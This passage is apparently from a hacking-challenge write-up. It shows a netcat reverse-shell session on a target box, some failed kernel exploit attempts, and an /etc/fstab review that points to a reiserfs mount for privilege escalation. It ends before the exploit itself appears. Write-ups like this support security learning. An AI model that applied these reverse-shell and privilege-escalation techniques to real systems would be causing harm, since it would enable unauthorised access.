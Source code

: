 Ok, I’ve got a nice reverse shell.

```
root@krypt2:/vpn/70# nc -lp 4455
:: Depth :: Connect Back Shell ::
pwd
/var/lock
ls -al
total 8
drwxrwxrwt  4 root     root      100 May  4 15:58 .
drwxr-xr-x 14 root     root     4096 May  4 02:26 ..
drwxr-xr-x  2 www-data root       40 May  4 15:52 apache2
-rw-r--r--  1 www-data www-data  519 May  6  2010 corelanshell.pl
drwx------  2 root     root       40 May  4 15:52 lvm
```

Unfortunately I’m not running as root, so if the secret file is hidden somewhere/protected, then I need to find a way to get more privs.

Just to be sure, I did a quick search for all txt files, but couldn’t find anything useful.

Perhaps a local root exploit might work. The system seems to be running

```
Linux ghost 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
```

I tried about a dozen of local root exploits… but they all failed miserably… and lost a huge amount of time… (and I have to admit that I’m not that strong in Linux exploitation. )

But I never give up.

I looked at /etc/fstab :

```
cat /etc/fstab
# /etc/fstab: static file system information.
#
# Use 'blkid -o value -s UUID' to print the universally unique identifier
# for a device; this may be used with UUID= as a more robust way to name
# devices that works even if disks are added and removed. See fstab(5).
#
# system>             <dump>  
proc            /proc           proc    defaults        0       0
/dev/mapper/ghost-root /               ext4    errors=remount-ro 0       1
# /boot was on /dev/sda5 during installation
UUID=f9f46813-a78a-42e8-a007-53308212ee26 /boot           ext2    defaults        0       2
/dev/sdb1 /apachelogs          reiserfs    user,noauto,rw,exec,suid,user_xattr        0       2
/dev/sdc1 /tmp         ext2        noexec,nosuid,rw                    0       0
/dev/mapper/ghost-swap_1 none            swap    sw              0       0
/dev/scd0       /media/cdrom0   udf,iso9660 user,noauto,exec,utf8 0       0
/dev/fd0        /media/floppy0  auto    rw,user,noauto,exec,utf8 0       0
```

=\> /apachelogs has reiserfs… and that’s suspicious.

So I searched for a local sploit that takes advantage of a bug in reiserfs, and I found this one :
